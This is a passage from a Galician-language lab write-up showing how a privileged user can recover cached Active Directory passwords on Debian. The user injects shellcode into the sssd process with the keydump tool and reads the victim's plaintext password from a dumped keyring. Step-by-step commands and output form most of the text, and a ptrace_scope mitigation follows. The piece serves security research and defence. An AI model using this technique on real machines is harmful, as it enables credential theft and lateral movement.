Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 12 22:39:50 2024 from 192.168.122.254
administrator@dev.lab@debian:~$ 
#+end_src

Eu usei a conta ~Administrator~ do meu dominio ~dev.lab~ pero podes usar
calquera conta.

Unha vez teñas comprobado que podes acceder á máquina por ssh cunha conta de
dominio, teste que asegurar de que a opción ~krb5_store_password_if_offline~ ten
o valor ~true~ na túa configuración de sssd (nas opcións de dominio), que é o
valor por defecto:

#+begin_src
$ sudo cat /etc/sssd/sssd.conf

[sssd]
domains = dev.lab
config_file_version = 2
services = nss, pam

[domain/dev.lab]
default_shell = /bin/bash
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = DEV.LAB
realmd_tags = manages-system joined-with-adcli 
id_provider = ad
fallback_homedir = /home/%u@%d
ad_domain = dev.lab
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = ad
#+end_src

No caso de que a opción ~krb5_store_password_if_offline~ non apareza ou estea
posta a ~false~, modificaá e pona a ~true~. E reinicia o demo sssd.

Cando teñas isto tes que desconectar a máquina GNU/Linux do Controlador de
Dominio. Para isto podes simplemente apagar o Controlador de Dominio.

Agora precisarás acceder á máquina con dúas contas á vez:

- Unha conta de dominio que será a víctima
- Unha conta privilexiada coma root, algunha con sudo ou calquera usuaria ca
  capacidade ~CAP_SYS_PTRACE~, que será a atacante. Esta conta da igual se é
  local ou de dominio.

#+begin_quote
Ten en conta que calquera conta de dominio que vaias a usar precisa haber
iniciado sesión antes de desconectar o Controlador de Dominio para que as súas
credenciais (realmente os seus hashes) queden cacheados na máquina GNU/Linux.
#+end_quote

Primeiro accedemos coa conta de dominio, a víctima, por ssh:
#+begin_src 
$ ssh Administrator@dev.lab@lab-debian
Administrator@dev.lab@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 12 22:39:50 2024 from 192.168.122.254
administrator@dev.lab@debian:~$ 
#+end_src

Non precisarás volver a usar esta conta, soamente manter a súa terminal
conectada.

Agora copia o binario de keydump á máquina obxetivo (con scp por
exemplo). Antes precisarás compilalo nunha máquina de características similares
(ou na máquina obxetivo directamente) para evitar problemas de versións coa libc.

Entón, noutra terminal, accede usando a conta privilexiada, a atacante:
#+begin_src 
$ ssh lab-debian 
user@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Mon Jul 29 16:46:29 2024 from 192.168.122.254
user@debian:~$ 
#+end_src

Como atacantes, podemos confirmar que a conta de dominio iniciou sesión co
comando ~who~:
#+begin_src 
user@debian:~$ who
user     pts/0        Jul 28 17:04 (192.168.122.254)
administrator@dev.lab pts/1        Jul 28 16:46 (192.168.122.254)
#+end_src

E verificar que a chave que contén o contrasinal da víctima foi creada:
#+begin_src 
user@debian:~$ sudo cat /proc/keys | grep dev.lab
10bfb037 I--Q---     1 perm 3f010000     0     0 user      Administrator@dev.lab: 10
#+end_src

Como podemos apreciar, unha chave foi creada co nome da conta víctima para
almacenar o seu contrasinal, pero nos non temos permisos para leela, so os
procesos posuidores poden. Podemos verificar isto co comando ~keyctl~ (que
ten que ser instalado):

#+begin_src 
user@debian:~$ sudo keyctl read 0x10bfb037
keyctl_read_alloc: Permission denied
#+end_src

Afortunadamente, podemos usar keydump para volcar as chaves do proceso sssd
pasándolle o seu pid:
#+begin_src 
user@debian:~$ ps -o pid --no-headers -C sssd | sed 's/ //g' | sudo ./keydump -
[PID 452] Shellcode injected
[PID 452] /tmp/k_452 exists, so keys must be dumped!!
user@debian:~$ sudo cat /tmp/k_452/10bfb037_user_Administrator_dev_lab__10
S3cur3p4ss
#+end_src

Éxito!! Fomos quen de leer as chaves de ssh e obter o contrasinal da víctima.

* Prevención
:PROPERTIES:
:custom_id: prevencion
:END:

Para previr este ataque non debemos permitir aos procesos acoplarse a outros, o
que pode facerse co seguinte comando:

#+begin_src 
echo 3 | sudo tee /proc/sys/kernel/yama/ptrace_scope
#+end_src

Isto configura o módulo de seguridade [[https://www.kernel.org/doc/html/latest/admin-guide/LSM/Yama.html][Yama]] para bloquear accesos a ptrace (o que
tamén evita que se poida acceder a ficheiros coma =/proc/<pid>/mem= e
=/proc/<pid>/maps=). Penso que tamén debería ser posible bloquear este
ataque con SELinux ou Apparmor, pero non sei como se fai.

* Conclusión
:PROPERTIES:
:custom_id: conclusion
:END:

Neste artigo mostrei como garda SSSD as passwords cando o Controlador de Dominio
non está dispoñible, como funcionan os keyrings e como podemos leer as chaves de
outros procesos con keydump. Agardo que che gustase e lle podas atopar
utilidade.

Bo hacking e viva Palestina ceibe!!


* Referencias
:PROPERTIES:
:custom_id: referencias
:END:

[fn:keydump] Eloy Pérez González. "keydump". Github. 14 July, 2024,
https://github.com/zer1t0/keydump

[fn:linux-process-injection] Fob. "Process Injection on Linux - Injecting into Processes". fob's
notebook, 31 May, 2022, https://blog.f0b.org/2022/05/process-injection-on-linux-injecting-into-processes/

[fn:linux-syscall-calling-convention] claws. "What are the calling conventions
for UNIX & Linux system calls (and user-space functions) on i386 and
x86-64". Stack Overflow. 18 January, 2024, https://stackoverflow.com/a/2538212 

[fn:shellnova] Eloy Pérez González. "shellnova". Github. 14 July, 2024,
https://github.com/zer1t0/shellnova 

